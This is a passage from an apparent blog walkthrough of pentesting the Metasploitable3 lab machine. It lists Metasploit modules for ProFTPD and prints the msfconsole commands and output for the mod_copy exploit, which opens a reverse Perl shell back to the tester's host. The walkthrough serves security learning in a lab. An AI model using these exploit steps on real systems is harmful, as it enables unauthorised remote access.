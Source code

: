 ```none
192.168.19.20  21    tcp    ftp          open    ProFTPD 1.3.5
```

A quick `msfconsole` search yeilded the following results:

```none
exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
exploit/linux/ftp/proftp_sreplace            2006-11-26       great      ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    NetSupport Manager Agent Remote Buffer Overflow
exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  ProFTPD-1.3.3c Backdoor Command Execution
exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  ProFTPD 1.3.5 Mod_Copy Command Execution
```

I mucked around with a few of the exploits listed but did not get very far. All the exploits were at, or below, the version of ProFTPD on Metasploitable3 (version 1.3.5). I tried the last on the list, `proftpd_modcopy_exec`. 

```none
msf > use exploit/unix/ftp/proftpd_modcopy_exec

msf exploit(unix/ftp/proftpd_modcopy_exec) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html
sitepath => /var/www/html

msf exploit(unix/ftp/proftpd_modcopy_exec) > set exploit cmd/unix/reverse_perl
exploit => cmd/unix/reverse_perl

msf exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.19.10:4444 
[*] 192.168.19.20:80 - 192.168.19.20:21 - Connected to FTP server
[*] 192.168.19.20:80 - 192.168.19.20:21 - Sending copy commands to FTP server
[*] 192.168.19.20:80 - Executing PHP payload /jjIRB1.php
[*] Command shell session 4 opened (192.168.19.10:4444 -> 192.168.19.20:47618) at 2018-07-07 23:21:25 -0400
```

This exploit gained remote access as the `www-data` user. This was not very useful, as the UnrealIRCd exploit gained a higher level of access. Moving on!

## Port 80: Drupal

In my previous post ([Pentesting Metasploitable3 using SQL Injection]({% post_url 2018-07-08-metasploitable3-pentesting-the-ubuntu-linux-version-part1 %})), I investigated the Apache web server running on port 80. In the directory listing provided by the web server was a Drupal install.
